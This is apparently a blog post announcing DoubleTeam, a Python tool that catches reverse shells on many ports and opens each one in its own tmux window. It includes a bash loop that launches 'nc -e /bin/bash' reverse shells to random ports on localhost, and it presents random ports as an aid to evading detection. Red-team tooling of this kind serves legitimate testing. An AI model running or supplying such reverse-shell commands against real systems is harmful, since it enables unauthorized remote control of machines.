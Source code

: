 ```yaml
---
layout: post
title: DoubleTeam - Python listener based on tmux and socat
excerpt_separator: <!--more-->
---
```


Using socat, tmux and Python threading, DoubleTeam launches a new tmux window for each incoming reverse shell. It supports simultaneous listening on many ports and automatically resumes listening on the port after spawning the tmux window.

<!--more-->


Generate reverse shell payloads that connect to random ports, raising your evasion level!

<p align="center">
  <img src="https://images.wikidexcdn.net/mwuploads/wikidex/7/74/latest/20190608212234/Doble_equipo_Am.png" alt="Double Team GIF" />
</p>

Repository: [https://github.com/ricardojoserf/DoubleTeam](https://github.com/ricardojoserf/DoubleTeam)

<br>

## Usage

```
python3 doubleteam.py -p [PORT_LIST]
```

Options:

- -p (--ports): Comma-separated list of ports to listen on. Ports below 1024 will require root privileges.

<br>

For example, to listen on 50 ports:

```
python3 doubleteam.py -p 443,4443,8443,8743,9443,9643,10443,10943,11443,11843,12243,12943,13443,13743,14243,14943,15443,15843,16343,16943,17243,17843,18343,18743,19343,19743,20243,20943,21343,21743,22243,22843,23343,23943,24343,24743,25343,25743,26243,26843,27443,27943,28443,29143,29743,30343,30843,31443,31943
```

Generate some reverse shells to connect to these ports randomly, for example using bash and Netcat:

```
for i in $(seq 1 10); do numbers=(443 4443 8443 8743 9443 9643 10443 10943 11443 11843 12243 12943 13443 13743 14243 14943 15443 15843 16343 16943 17243 17843 18343 18743 19343 19743 20243 20943 21343 21743 22243 22843 23343 23943 24343 24743 25343 25743 26243 26843 27443 27943 28443 29143 29743 30343 30843 31443 31943); port="${numbers[RANDOM % ${#numbers[@]}]}"; echo "Connecting to port $port"; nc -e /bin/bash 127.0.0.1 $port & ; done
```

The reverse shells are received:

![img1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/doubleteam/Screenshot_1.png)

Then connect to the tmux session "doubleTeam":

```
tmux a -t doubleTeam
```

![img2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/doubleteam/Screenshot_2.png)

If you list the windows you will see one for each reverse shell:

![img3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/doubleteam/Screenshot_3.png)

Now you can close the Python listener if you want, the reverse shells will still be available in the tmux session!

<br>